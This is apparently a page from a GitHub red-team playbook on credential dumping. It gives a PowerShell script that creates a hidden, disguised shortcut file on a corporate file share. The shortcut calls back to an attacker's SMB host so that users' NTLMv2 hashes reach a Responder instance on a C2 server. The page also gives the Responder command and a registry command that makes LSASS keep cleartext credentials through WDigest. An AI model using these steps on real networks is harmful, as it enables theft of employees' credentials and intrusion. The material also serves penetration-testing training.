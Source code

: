 # 4.2 Credential Dumping

## Table of Contents

- [LNK Files](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.2-Credential-Dumping.md#LNK-Files)
- [WDigest](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.2-Credential-Dumping.md#WDigest)

## LNK Files

A neat little trick to gather `NTLMv2 Hashes` every time a corporate file share got accessed, is to create a malicious `file`,
which takes place in the same directory on the fileshare.

At first it is necessary to create the malicious file with the following script from [v3ded's blog](https://v3ded.github.io/redteam/abusing-lnk-features-for-initial-access-and-persistence) which I modified slightly to weaponize it for the use with `Responder`.

```c
$path                      = "$([Environment]::GetFolderPath('Desktop'))\<FILE>.lnk"
$wshell                    = New-Object -ComObject Wscript.Shell
$shortcut                  = $wshell.CreateShortcut($path)

$shortcut.IconLocation     = "C:\Windows\System32\shell32.dll,70"

$shortcut.TargetPath       = "cmd.exe"
$shortcut.Arguments        = "/c explorer.exe Z:\PATH\TO\SHARE & \\<LHOST>\foobar" # Calls the SMB share of the responder instance on the C2 server
$shortcut.WorkingDirectory = "C:"
$shortcut.HotKey           = "CTRL+C"
$shortcut.Description      = ""

$shortcut.WindowStyle      = 7
                           # 7 = Minimized window
                           # 3 = Maximized window
                           # 1 = Normal    window
$shortcut.Save()

(Get-Item $path).Attributes += 'Hidden' # Optional if we want to make the link invisible (prevent user clicks)
```

Next, switch the folder icon to the same icons as used on the fileshare. After that all is to hide the target folder with
the following command.

```c
C:\> attrib -h Z:\PATH\TO\FOLDER\<FOLDER>
```

<p align="center">
  <img src="https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/files/lnk_payload.png">
</p>

After this the malicious file takes place in the same directory as the hidden non-malicious folder.
Everytime a user opens the folder, his `NTLMv2 Hash` got send to the `C2` server which is running `Responder`.

```c
$ sudo responder -I <INTERFACE>
```

<p align="center">
  <img src="https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/files/malicious_file.png">
</p>

## WDigest

### Store cleartext credentials in LSASS

```c
PS C:\> Set-ItemProperty -Force -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest' -Name "UseLogonCredential" -Value '1'"
```

### Previous

- [4 Exploitation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4-Exploitation.md)
- [4.1 Defense Evasion](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.1-Defense-Evasion.md)

### Next

- [4.3 Privilege Escalation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.3-Privilege-Escalation.md)
- [4.4 Lateral Movement](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.4-Lateral-Movement.md)
